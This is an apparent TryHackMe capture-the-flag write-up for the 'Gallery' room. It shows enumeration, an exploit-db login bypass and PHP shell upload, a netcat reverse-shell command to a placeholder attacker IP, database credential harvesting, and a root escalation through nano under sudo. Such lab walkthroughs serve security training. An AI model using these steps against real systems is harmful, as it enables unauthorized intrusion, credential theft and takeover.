 ```yaml
---
title: "Gallery"
date: 2025-01-30
image: /assets/img/tryhackme/Gallery/Gallery_image.jpg
description: Writeup of the TryHackMe-CTF Gallery
categories: [Tryhackme, Easy]
tags: [linux, privesc, web, enumeration, rce]
---
```


## Challenge Description
<center>
<table>
  <tr>
    <td>Platform</td>
    <td>TryHackMe</td>
  </tr>
  <tr>
    <td>Name</td>
    <td>Gallery</td>
  </tr>
  <tr>
    <td>Description</td>
    <td>Try to exploit our image gallery system</td>
  </tr>
  <tr>
    <td>Difficulty</td>
    <td>Easy</td>
  </tr>
  <tr>
    <td>OS</td>
    <td>Linux</td>
  </tr>
  <tr>
    <td>Link</td>
    <td><a href="https://tryhackme.com/r/room/gallery666">https://tryhackme.com/r/room/gallery666</a></td>
  </tr>
</table>
</center>

This writeup is a possible solution of the CTF-challenge Gallery.  

## Enumeration
I started the enumeration using `nmap`:
```bash
$ nmap -p- 10.10.180.20                                
  Starting Nmap 7.94SVN ( https://nmap.org ) at 2025-01-30 06:17 EST
  Nmap scan report for 10.10.180.20
  Host is up (0.039s latency).
  Not shown: 65533 closed tcp ports (conn-refused)
  PORT     STATE SERVICE
  80/tcp   open  http
  8080/tcp open  http-proxy

  Nmap done: 1 IP address (1 host up) scanned in 19.85 seconds
```
and enumerated the found services in more depth using nmap's `-A` flag:
```bash
$ nmap -A -p 80,8080 10.10.180.20
  Starting Nmap 7.94SVN ( https://nmap.org ) at 2025-01-30 06:18 EST
  Nmap scan report for 10.10.180.20
  Host is up (0.045s latency).
  
  PORT     STATE SERVICE VERSION
  80/tcp   open  http    Apache httpd 2.4.29 ((Ubuntu))
  |_http-server-header: Apache/2.4.29 (Ubuntu)
  |_http-title: Apache2 Ubuntu Default Page: It works
  8080/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
  | http-open-proxy: Potentially OPEN proxy.
  |_Methods supported:CONNECTION
  | http-cookie-flags: 
  |   /: 
  |     PHPSESSID: 
  |_      httponly flag not set
  |_http-title: Simple Image Gallery System
  |_http-server-header: Apache/2.4.29 (Ubuntu)
  
  Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
  Nmap done: 1 IP address (1 host up) scanned in 8.35 seconds
```
From here I proceeded the analysis port by port.

## Port 80 Analysis
I found an Apache default page, but found nothing in the source code, so I continued with the directory enumeration:
```bash
$ gobuster dir --url http://10.10.180.20/ --wordlist /usr/share/wordlists/dirbuster/directory-list-lowercase-2.3-medium.txt 
  ===============================================================
  Gobuster v3.6
  by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
  ===============================================================
  [+] Url:                     http://10.10.180.20/
  [+] Method:                  GET
  [+] Threads:                 10
  [+] Wordlist:                /usr/share/wordlists/dirbuster/directory-list-lowercase-2.3-medium.txt
  [+] Negative Status codes:   404
  [+] User Agent:              gobuster/3.6
  [+] Timeout:                 10s
  ===============================================================
  Starting gobuster in directory enumeration mode
  ===============================================================
  /gallery              (Status: 301) [Size: 314] [--> http://10.10.180.20/gallery/]

```

The directory `/gallery` showed a Login screen. With the name of the CMS I found an <a href="https://www.exploit-db.com/exploits/50214">exploit-db</a> entry which can get me remote code execution. The exploit code shows how to bypass the login, but after logging in this didn't reveal anything.

![Dashboard](/assets/img/tryhackme/Gallery/thm_gallery_1.jpg)

```bash
$ python3 exploit.py
TARGET = http://10.10.180.20/gallery              
Login Bypass
shell name TagoenmcpbdzviklgpmLetta

protecting user

User ID : 1
Firstname : Adminstrator
Lastname : Admin
Username : admin

shell uploading
- OK -
Shell URL : http://10.10.180.20/gallery/uploads/1738236540_TagoenmcpbdzviklgpmLetta.php?cmd=whoami

```
![Remote Command Execution](/assets/img/tryhackme/Gallery/thm_gallery_2.jpg)

I was able to get a reverse shell shell:
```html
...?cmd=busybox nc [atacker ip] 9001 -e sh
```
After performing some shell stabilization I started searching for database credentials and found a file called `initialize.php`:
```php
<?php
  $dev_data = array('id'=>'-1','firstname'=>'Developer','lastname'=>'','username'=>'dev_oretnom','password'=>'[removed]','last_login'=>'','date_updated'=>'','date_added'=>'');

  if(!defined('base_url')) define('base_url',"http://" . $_SERVER['SERVER_ADDR'] . "/gallery/");
  if(!defined('base_app')) define('base_app', str_replace('\\','/',__DIR__).'/' );
  if(!defined('dev_data')) define('dev_data',$dev_data);
  if(!defined('DB_SERVER')) define('DB_SERVER',"localhost");
  if(!defined('DB_USERNAME')) define('DB_USERNAME',"gallery_user");
  if(!defined('DB_PASSWORD')) define('DB_PASSWORD',"[removed]");
  if(!defined('DB_NAME')) define('DB_NAME',"gallery_db");
?>
```

With the credentials I was able to access the MySql database:
```bash
www-data@gallery:/var/www/html/gallery$ mysql -u gallery_user -p

MariaDB [(none)]> show databases;
  +--------------------+
  | Database           |
  +--------------------+
  | gallery_db         |
  | information_schema |
  +--------------------+
  2 rows in set (0.00 sec)

MariaDB [(none)]> use gallery_db;
	Database changed

MariaDB [gallery_db]> show tables;
  +----------------------+
  | Tables_in_gallery_db |
  +----------------------+
  | album_list           |
  | images               |
  | system_info          |
  | users                |
  +----------------------+
  4 rows in set (0.00 sec)

MariaDB [gallery_db]> select * from users; 
  +----+--------------+----------+----------+----------------------------------+-------------------------------------------------+------------+------+---------------------+---------------------+
  | id | firstname    | lastname | username | password                         | avatar                                          | last_login | type | date_added          | date_updated        |
  +----+--------------+----------+----------+----------------------------------+-------------------------------------------------+------------+------+---------------------+---------------------+
  |  1 | Adminstrator | Admin    | admin    | [removed]                        | uploads/1738236540_TagoenmcpbdzviklgpmLetta.php | NULL       |    1 | 2021-01-20 14:02:37 | 2025-01-30 11:29:27 |
  +----+--------------+----------+----------+----------------------------------+-------------------------------------------------+------------+------+---------------------+---------------------+
1 row in set (0.00 sec)
```

## Privilege Escalation mike

After searching around a bit I found a backup of the bash history at this path `/var/backups/mike_home_backup/.bash_history`. In the file I found the following:
```bash
$ cat .bash_history
  cat .bash_history
  cd ~
  ls
  ping 1.1.1.1
  cat /home/mike/user.txt
  cd /var/www/
  ls
  cd html
  ls -al
  cat index.html
  sudo -l[removed]
  clear
  sudo -l
  exit
```

This looks like mike's credentials, so I changed the user:
```bash
mike@gallery:~$ su mike
  su mike
  Password: [removed]

mike@gallery:~$ cat user.txt
	[*** removed ***]
```

## Privilege Escalation root
I started with `sudo -l` and got the following output:
```bash
mike@gallery:~$ sudo -l
  Matching Defaults entries for mike on gallery:
      env_reset, mail_badpass,
      secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

  User mike may run the following commands on gallery:
      (root) NOPASSWD: /bin/bash /opt/rootkit.sh
```
We can execute the `bash` script as root. Let's analyse the bash script:
```bash
  #!/bin/bash

  read -e -p "Would you like to versioncheck, update, list or read the report ? " ans;

  # Execute your choice
  case $ans in
      versioncheck)
          /usr/bin/rkhunter --versioncheck ;;
      update)
          /usr/bin/rkhunter --update;;
      list)
          /usr/bin/rkhunter --list;;
      read)
          /bin/nano /root/report.txt;;
      *)
          exit;;
  esac
```
A quick search in <a href="https://gtfobins.github.io/gtfobins/nano/">gftobins</a> gave me all I needed. We can insert `read` to get inside the nano command. From there we can get a shell.
```bash
mike@gallery:~$ sudo /bin/bash /opt/rootkit.sh
  Would you like to versioncheck, update, list or read the report ? read
```
In `nano` press CTRL + R then CTRL + X and insert the command:

![nano privesc](/assets/img/tryhackme/Gallery/thm_gallery_3.jpg)

```bash
# whoami
  root
# cat /root/root.txt
  [*** removed ***]
```

solved! :)
